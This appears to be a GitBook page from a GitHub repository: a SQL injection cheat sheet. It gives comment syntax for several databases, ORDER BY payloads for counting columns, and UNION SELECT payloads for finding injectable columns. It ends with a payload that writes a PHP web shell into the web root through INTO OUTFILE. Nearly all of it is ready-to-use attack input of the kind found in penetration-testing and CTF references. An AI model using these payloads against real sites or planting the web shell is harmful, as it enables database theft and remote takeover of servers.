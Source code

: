 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL injection

## Comments

```bash
# Oracle
--comment

# MSSQL
--comment
/*comment*/

# PostgreSQL
--comment
/*comment*/

# MySQL
#comment
-- comment    # include the space
/*comment*/
```

## Detecting columns

```bash
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
# and so on. Until an error occured
```

## Union select

```bash
# keep replacing 'a'. Until an error occured
' UNION SELECT 'a',NULL,NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL,NULL--
```

## Union all select

```bash
' UNION ALL SELECT 1-- - 
' UNION ALL SELECT 1,2-- -
' UNION ALL SELECT 1,2,3-- -
# keep going until one of the number in the output
```

## Backdoor/web shell

```php
# PHP web shell
' UNION ALL SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/cmd.php'-- -
```

